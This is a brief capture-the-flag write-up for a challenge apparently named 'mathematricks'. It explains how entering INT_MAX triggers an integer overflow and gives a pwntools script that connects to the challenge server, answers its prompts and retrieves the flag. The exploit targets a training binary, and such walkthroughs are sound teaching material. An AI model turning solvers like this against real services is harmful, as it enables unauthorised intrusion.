 Taking a look at the `INT_MAX` value in `C`:

![](assets/int.png)

If we try to store this value to one of the numbers, and something else to the other, we can achieve an `Integer Overflow` and get the flag.

# Solution

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './mathematricks' 

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')

sla = lambda x,y : r.sendlineafter(x,y)

sla('🥸 ', '1') # play game

# Questions
sla('> ', '2')
sla('> ', '1')
sla('> ', '0')
sla('n1: ', '2147483647') # INT_MAX
sla('n2: ', '1337')

print(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```
